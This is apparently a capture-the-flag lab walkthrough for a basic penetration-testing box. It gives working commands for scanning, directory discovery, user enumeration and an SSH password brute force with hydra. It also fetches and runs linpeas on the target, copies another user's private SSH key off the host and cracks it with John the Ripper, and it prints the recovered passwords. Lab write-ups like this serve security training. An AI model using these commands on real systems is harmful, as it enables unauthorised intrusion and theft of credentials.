




# Basic Penetration Testing Box
--------------------------------------------------------------------

**TOOLS USED**: nmap, dirbuster, enum4linux, hydra, linpeas, John the Ripper

**nmap**: network exploration tool and security / port scanner<br>

```
nmap [Scan Type...] [Options] {target specification}
```

Scan Types:<br>
-Ss [DEFAULT] TCP SYN Scan (Doesn't open full TCP connection)<br>
-St TCP Scan (Opens full TCP connection)<br>
-Su UDP Scan<br>

To find all devices connected to a network:

```
nmap -sL x.x.x.x/24
```

**dirbuster**: web content scanner

```
dirb <url_base> <url_base> [<wordlist_file(s)>] [options]
```

**enum4linux**: tool for enumerating information from Windows and Samba systems

**hydra**: network logon cracker

```
hydra
       [[[-l LOGIN|-L FILE] [-p PASS|-P FILE|-x OPT -y]] | [-C FILE]]
       [-e nsr] [-u] [-f|-F] [-M FILE] [-o FILE] [-b FORMAT]
       [-t TASKS] [-T TASKS] [-w TIME] [-W TIME] [-m OPTIONS] [-s PORT]
       [-c TIME] [-S] [-O] [-4|6] [-I] [-vV] [-d]
       server service [OPTIONS]
```

**linpeas**: script that searches for possible paths to escalate privileges on Linux/Unix*/MacOS hosts

**john**: tool to crack weak passwords

```
john [options] password-files
```

--------------------------------------------------------------------
## GIVEN INFO


**IP Address**: 10.10.19.208

--------------------------------------------------------------------
## PROCEDURE


### 1. FIND EXPOSED SERVICES


**TOOLS**: nmap

```
nmap -sC -sV -oN nmap.txt 10.10.19.208
```
-sC: script scan with default scripts<br>
-sV: probe open ports to determine service/version info<br>
-oN: output scan in normal to given filename<br>





**EXPOSED PORT (SERVICE)**:<br>
  22 (ssh),<br>
  80 (http),<br>
  139 (smbd),<br>
  445 (smbd),<br>
  8009 (ajp13),<br>
  8080 (http)<br>

----------------------------------
## 2. FIND HIDDEN DIR ON WEB SERVER


**TOOLS**: dirbuster

```
dirb http://10.10.19.208
```


**HIDDEN DIR**: /development

----------------------------------
## 3. GET USERNAME & PASSWORD


**TOOLS**: enum4linux, hydra

**NOTE**: J has a weak password

```
enum4linux -a 10.10.19.208 | tee enum4linux.log
```

-a: do all simple enumerations


**USERS**: jan, kay

```
hydra -l jan -P /usr/share/wordlists/rockyou.txt.gz ssh://10.10.19.208
```

-l: login name<br>
-P: password file to iterate through



**PASSWORD**: armando

----------------------------------
## 4. FIND PRIVILEGE ESCALATION VECTORS


**TOOLS**: linpeas, John the Ripper

Host Machine
```
  wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh
  scp linpeas.sh jan@10.10.19.208:/dev/shm
```

Target Machine
```
cd /dev/shm
chmod +x linpeas.sh
./linpeas.sh | tee linpeas.txt
```

Host Machine
```
scp jan@10.10.19.208:/dev/shm/linpeas.txt linpeas.txt
scp jan@10.10.19.208:/home/kay/.ssh/id_rsa kay_id_rsa
```



```
ssh2john kay_id_rsa > 4john.txt
john 4john.txt
```



**PASSWORD**: beeswax

----------------------------------
## 5. FINAL PASSWORD


```
ssh -i kay_id_rsa kay@10.10.19.208
cat pass.bak
```

**PASSWORD**: heresareallystrongpasswordthatfollowsthepasswordpolicy$$
